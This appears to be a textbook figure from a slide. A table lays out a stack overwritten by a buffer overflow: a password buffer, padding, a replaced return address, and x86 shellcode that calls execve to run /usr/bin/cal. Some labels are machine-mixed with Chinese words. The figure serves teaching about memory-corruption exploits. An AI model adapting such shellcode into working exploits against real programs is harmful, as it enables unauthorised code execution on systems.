

| Figure 2-25. Program 栈 overwritten by binary exploit |  |  |
| --- | --- | --- |
| Line | Address | Content |
| 1 | 0xbffff9c0 – 0xbffff9cf | "123456789012456" 存储Password (16 Bytes) Program allocates 12 but complier defaults to multiples of 16 bytes) |
| 2 | 0xbffff9d0 – 0xbffff9db | "789012345678" extra space allocated (12 Bytes) Compiler generated to force 16 byte 栈 alignments |
| 3 | 0xbffff9dc | (0xbffff9e0) # new return address |
| 4 | 0xbffff9e0 | xor %eax,%eax #set eax to zero |
| 5 | 0xbffff9e2 | mov %eax,0xbffff9ff #set to NULL word |
| 6 | 0xbffff9e7 | mov $0xb,%al #set 代码 for execve |
| 7 | 0xbffff9e9 | mov $0xbffffa03,%ebx #ptr to arg 1 |
| 8 | 0xbffff9ee | mov $0xbffff9fb,%ecx #ptr to arg 2 |
| 9 | 0xbffff9f3 | mov 0xbffff9ff,%edx #ptr to arg 3 |
| 10 | 0xbffff9f9 | int $80 # make system call to execve |
| 11 | 0xbffff9fb | arg 2 array pointer array char \* []={0xbffff9ff, points to a NULL str |
| 12 | 0xbffff9ff | "1111"}; – #will be changed to 0x00000000 terminates ptr array & also used for arg3 |
| 13 | 0xbffffa03 – 0xbffffa0f | "/usr/bin/cal\0" |
35